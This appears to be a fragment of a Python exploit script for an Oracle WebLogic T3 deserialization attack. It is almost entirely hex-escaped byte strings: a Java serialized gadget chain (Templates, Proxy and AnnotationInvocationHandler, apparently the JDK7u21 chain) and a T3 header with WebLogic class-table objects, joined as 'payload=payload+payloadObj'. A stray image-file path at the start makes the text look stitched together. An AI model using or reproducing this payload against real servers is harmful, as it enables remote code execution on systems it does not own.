 \x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x01\x74\x00\x08\x66\x35\x61\x35\x61\x36\x30\x38\x71\x00\x7e\x00\x09\x78\x76\x72\x00\x1d\x6a\x61\x76\x61\x78\x2e\x78\x6d\x6c\x2e\x74\x72\x61\x6e\x73\x66\x6f\x72\x6d\x2e\x54\x65\x6d\x70\x6c\x61\x74\x65\x73\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x78\x70\x78\x73\x7d\x00\x00\x00\x01\x00\x14\x6a\x61\x76\x61\x2e\x69\x6f\x2e\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x62\x6c\x65\x78\x72\x00\x17\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x72\x65\x66\x6c\x65\x63\x74\x2e\x50\x72\x6f\x78\x79\xe1\x27\xda\x20\xcc\x10\x43\xcb\x02\x00\x01\x4c\x00\x01\x68\x74\x00\x25\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x78\x70\x73\x72\x00\x32\x73\x75\x6e\x2e\x72\x65\x66\x6c\x65\x63\x74\x2e\x61\x6e\x6e\x6f\x74\x61\x74\x69\x6f\x6e\x2e\x41\x6e\x6e\x6f\x74\x61\x74\x69\x6f\x6e\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x55\xca\xf5\x0f\x15\xcb\x7e\xa5\x02\x00\x02\x4c\x00\x0c\x6d\x65\x6d\x62\x65\x72\x56\x61\x6c\x75\x65\x73\x74\x00\x0f\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x4d\x61\x70\x3b\x4c\x00\x04\x74\x79\x70\x65\x74\x00\x11\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x78\x70\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x01\x74\x00\x08\x66\x35\x61\x35\x61\x36\x30\x38\x71\x00\x7e\x00\x05\x78\x76\x71\x00\x7e\x00\x03\x78'
 
payload='\x00\x00\x09\xf3\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00'
payload=payload+payloadObj